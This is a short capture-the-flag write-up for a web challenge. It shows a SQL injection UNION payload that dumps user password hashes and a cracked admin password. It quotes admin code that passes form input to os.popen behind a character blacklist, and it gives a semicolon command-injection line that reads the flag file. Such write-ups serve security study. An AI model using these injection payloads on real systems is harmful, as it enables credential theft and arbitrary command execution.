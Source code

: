 ## Writeup

![image](./challenge.png)

Haven't found nothing interesting through files: secret key inside the challenge is changed so no session hijacking.
But there is a raw sql query with string formatting inside `search` view.

So we can abuse it using `%' UNION ALL SELECT id, password as title, username as content, email as author, now() as created_at from users where username like '` string as a search string. We get admin password m5 hash which we can easily decrypt using john or similar online tools to `no1trust` and pairing it together with `admin` user we get to admin panel.

Inside an admin panel there is a `Rebuild Database` command which has some validation (code below) but we still can change it.

```
# app/routes/admin.py
DEFAULT_COMMAND = "echo 'Rebuilding database...' && /entrypoint.sh"

DISALLOWED_CHARS = r"[&| ><$\\]"


@admin_blueprint.route("/admin", methods=["GET", "POST"])
def admin_panel():
        ...
        command = request.form.get("command", "").strip()

        if not command.startswith(DEFAULT_COMMAND):
            error_message = "Invalid command: does not start with the default operation."
        elif re.search(DISALLOWED_CHARS, command[len(DEFAULT_COMMAND):]):
            error_message = "Invalid command: contains disallowed characters."
        else:
            try:
                result = os.popen(command).read()
                config_message = f"Command executed successfully:\n{result}"
            except Exception as e:
                error_message = f"An error occurred: {str(e)}"
        ...

Command with flag capture
```
echo 'Rebuilding database...' && /entrypoint.sh; cat flag.txt
``

